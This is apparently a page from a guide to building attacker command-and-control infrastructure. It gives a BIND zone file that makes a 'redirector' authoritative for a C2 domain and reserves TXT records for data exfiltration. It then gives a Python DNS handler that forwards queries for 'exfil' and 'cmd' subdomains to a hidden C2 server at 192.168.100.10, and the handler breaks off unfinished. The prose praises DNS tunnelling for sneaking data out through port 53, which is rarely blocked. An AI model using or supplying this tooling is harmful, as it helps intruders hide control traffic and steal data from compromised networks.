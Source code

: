 ```bash
# named.conf.local
zone "c2domain.com" {
    type master;
    file "/etc/bind/zones/c2domain.com.zone";
};

# /etc/bind/zones/c2domain.com.zone
$TTL 3600
@       IN      SOA     c2domain.com. admin.c2domain.com. (
                        202503181 ; Serial
                        3600      ; Refresh
                        1800      ; Retry
                        604800    ; Expire
                        86400 )   ; Minimum TTL

@       IN      NS      ns1.c2domain.com.
@       IN      NS      ns2.c2domain.com.
@       IN      A       203.0.113.10  ; Redirector IP
ns1     IN      A       203.0.113.10
ns2     IN      A       203.0.113.10

# Add DNS TXT records for data exfiltration
_data1  IN      TXT     "redirect-to-actual-c2-server-ip"
```

This BIND setup makes your redirector the authoritative server for your C2 domain. The zone file defines various records:

- SOA records for admin info
- NS records for name servers 
- A records to map hostnames to IPs
- TXT records for DNS tunneling

DNS redirectors work so well because:
1. They handle normal DNS queries
2. They can forward special queries to your C2
3. They can sneak data out through DNS TXT records
4. They use UDP port 53, which is rarely blocked

For more advanced DNS tunneling, you can write a custom handler:

```python
#!/usr/bin/env python3
import socket
import dnslib
import threading

def dns_handler(data, client_addr, server_sock):
    request = dnslib.DNSRecord.parse(data)
    domain = str(request.q.qname)
    
    # Log the incoming request
    print(f"Query from {client_addr[0]}: {domain}")
    
    # Forward specific subdomains to the actual C2 server
    if "exfil" in domain or "cmd" in domain:
        # Forward to actual C2 DNS server
        c2_sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        c2_sock.sendto(data, ("192.168.100.10", 53))
        c2_response, _ = c2_sock.recvfrom(1024)
        server_sock.sendto(c2_response, client_addr)
    else:
        # Handle normally or return predefined response
        qname = request.q.qname
        reply = request.reply()
```